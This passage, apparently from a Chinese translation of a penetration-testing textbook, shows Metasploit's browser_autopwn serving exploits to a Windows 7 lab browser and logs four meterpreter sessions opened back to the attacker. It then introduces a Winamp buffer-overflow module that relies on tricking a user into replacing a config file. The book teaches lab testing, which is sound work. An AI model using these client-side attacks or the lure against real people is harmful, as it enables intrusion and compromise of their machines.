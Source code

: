 ```
--*snip*--
[*] --- Done, found 16 exploit modules

[*] Using URL: http://0.0.0.0:8080/autopwn
[*] Local IP: http://192.168.20.9:8080/autopwn
[*] Server started.
```

本模块的选项是常见的客户端攻击。如图所示，我已经将我的 shell 的 LHOST 设置为 Kali 的 IP 地址，URIPATH 设置为容易记住的内容（`autopwn`）。请注意，我们这里不需要设置任何 payload；当各个模块加载时，Metasploit 会自动适当地设置 payload 选项。

服务器启动后，从网页浏览器访问恶意页面。我在 Windows 7 目标上使用了 Internet Explorer，如示例 10-21 所示。

示例 10-21. 自动攻陷浏览器

```
[*] 192.168.20.12    browser_autopwn - Handling '/autopwn'
[*] 192.168.20.12    browser_autopwn - Handling '/autopwn?sessid=TWljcm9zb2Z0IFdpbmRvd3M6NzpTUDE6ZW4tdXM6eDg2Ok1TSUU6OC4wOg%3d%3d'
[*] 192.168.20.12    browser_autopwn - JavaScript Report: Microsoft Windows:7:SP1:en-us:x86:
MSIE:8.0: ❶
[*] 192.168.20.12    browser_autopwn - Responding with 14 exploits ❷
[*] 192.168.20.12    java_atomicreferencearray - Sending Java AtomicReferenceArray Type Violation Vulnerability
--*snip*--
msf auxiliary(browser_autopwn) > **sessions -l**

Active sessions
===============

  Id  Type                   Information                  Connection
  --  ----                   -----------                  ----------
  1   meterpreter java/java  Georgia Weidman @ BookWin7   192.168.20.9:7777 ->
                                                            192.168.20.12:49195 (192.168.20.12)
  2   meterpreter java/java  Georgia Weidman @ BookWin7   192.168.20.9:7777 ->
                                                            192.168.20.12:49202 (192.168.20.12)
  3   meterpreter java/java  Georgia Weidman @ BookWin7   192.168.20.9:7777 ->
                                                            192.168.20.12:49206 (192.168.20.12)
  4   meterpreter java/java  Georgia Weidman @ BookWin7   192.168.20.9:7777 ->
                                                            192.168.20.12:49209 (192.168.20.12)
```

正如你所看到的，Metasploit 会检测到我的浏览器并尝试识别其版本和运行的软件❶。然后，它会发送所有它认为可能有效的漏洞利用❷。

一切结束后，运行**`sessions -l`**来查看结果。在我的案例中，我收到了四个新的会话。对于这么少的工作量来说，表现不错。不过，正如你可能预期的那样，所有这些漏洞利用使浏览器过载并崩溃了。（幸运的是，所有会话都自动迁移了。）

尽管*browser_autopwn*远没有执行侦察然后选择针对目标可能有效的特定漏洞利用那样隐蔽或优雅，但它在紧急情况下确实能派上大用场，这也是它值得作为渗透测试工具包的一部分的原因。

### Winamp

到目前为止，我们的客户端攻击基本上遵循相同的模式。我们生成一个恶意文件，利用客户端软件中的漏洞，或者提示用户授权运行恶意代码。用户使用相关程序打开文件，然后我们在 Metasploit 中获得一个会话。现在，来点不一样的。

在这个例子中，我们通过欺骗用户替换 Winamp 音乐播放器的配置文件。当用户下次打开该程序时，无论用户打开哪个音乐文件，恶意的配置文件都会被处理。我们将使用的 Metasploit 模块是*exploit/windows/fileformat/winamp_maki_bof*，它利用了 Winamp 5.55 版本中的一个缓冲区溢出问题。
